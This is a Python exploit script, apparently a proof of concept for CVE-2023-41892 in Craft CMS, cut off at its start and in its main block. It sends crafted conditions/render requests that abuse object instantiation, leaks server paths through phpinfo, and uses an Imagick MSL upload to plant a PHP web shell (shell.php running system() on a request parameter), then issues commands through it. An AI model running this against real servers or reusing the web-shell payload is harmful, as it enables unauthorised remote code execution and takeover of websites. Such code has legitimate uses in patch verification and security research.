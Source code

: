 ```python
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
```